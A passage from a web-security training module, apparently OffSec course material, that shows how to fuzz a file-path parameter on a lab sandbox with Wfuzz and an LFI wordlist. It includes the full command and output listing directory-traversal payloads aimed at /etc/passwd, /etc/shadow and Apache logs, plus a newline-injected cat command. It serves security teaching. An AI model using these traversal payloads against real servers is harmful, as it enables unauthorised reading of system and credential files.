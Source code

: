 --------------
#### 9.5.2 Wordlist/Payload Lists

Our automated attempts will only be as effective as our wordlist. We will be using `/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt` from the SecLists[1](https://portal.offsec.com/courses/WEB-200-28380/learning/directory-traversal-attacks-30962/directory-traversal-sandbox-31291/directory-traversal-exploitation-31009#fn-local_id_555-1) project during this Learning Module.

-----------
#### 9.5.3. Fuzzing the Path Parameter

Now that we have successfully exploited a relative directory traversal, let's attempt to confirm which files are present on the machine in an automated manner using _Wfuzz_.[1](https://portal.offsec.com/courses/WEB-200-28380/learning/directory-traversal-attacks-30962/directory-traversal-sandbox-31291/wordlistpayload-lists-31022#fn-local_id_558-1) The output below demonstrates how we can use the /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt wordlist to fuzz the _path_ parameter for many different system configuration paths. We can use this technique to enumerate the configuration of a target machine by determining which files are present and which are not.

Wfuzz can return a significant number of false positives, so let's start with a dry run to determine the average error rate before we enumerate our target machine.

In the command below, the -c parameter will instruct Wfuzz to display color in our terminal output window. The -z parameter is our payload parameter, and we specify that our payloads for the "FUZZ" keyword will come from the `LFI-Jhaddix.txt file`.


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload                   
=====================================================================
000000007:   200        3 L      10 W       81 Ch       "%0a/bin/cat%20/etc/passwd"
000000004:   200        3 L      10 W       81 Ch       "%00/etc/passwd%00"
000000014:   200        3 L      10 W       81 Ch       "/../../../../../../../../%2A"
000000005:   200        3 L      10 W       81 Ch       "%00../../../../../../etc/shadow"
000000002:   200        3 L      10 W       81 Ch       "\...\\\...\\\...\\\"
000000026:   200        3 L      19 W       125 Ch     "/admin/install.php"
000000020:   200        3 L      10 W       81 Ch       "..%2F..%2F..%2F%2F..%2F..%2F%2Fvar%2Fnamed"
000000022:   200        3 L      10 W       81 Ch       "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"
000000023:   200        3 L      10 W       81 Ch       "=3D ./... . .%2f.."
000000029:   200        3 L      10 W       81 Ch       "/apache2/logs/access.log"
000000021:   200        22 L     34 W       1007 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"
000000027:   200        3 L      10 W       81 Ch       "../../../administrator/inbox"
000000033:   200        3 L      10 W       81 Ch       "/apache/logs/access.log"
000000035:   200        3 L      10 W       81 Ch       "../../../../apache/logs/access.log"
000000036:   200        3 L      10 W       81 Ch       "../../../apache/logs/access.log"
000000037:   200        3 L      10 W       81 Ch       "../../apache/logs/access.log"
000000038:   200        3 L      10 W       81 Ch       "../apache/logs/access.log"
000000034:   200        3 L      10 W       81 Ch       "../../../../../apache/logs/access.log"
000000031:   200        3 L      10 W       81 Ch       "/apache2/logs/error.log"
000000028:   200        3 L      10 W       81 Ch       "/apache2/logs/access_log"
000000030:   200        3 L      10 W       81 Ch       "/apache2/logs/error_log"
000000032:   200        3 L      10 W       81 Ch       "/apache/logs/access_log"
000000039:   200        3 L      10 W       81 Ch       "/apache/logs/error_log"
000000041:   200        3 L      10 W       81 Ch       "../../../../../apache/logs/error.log"
```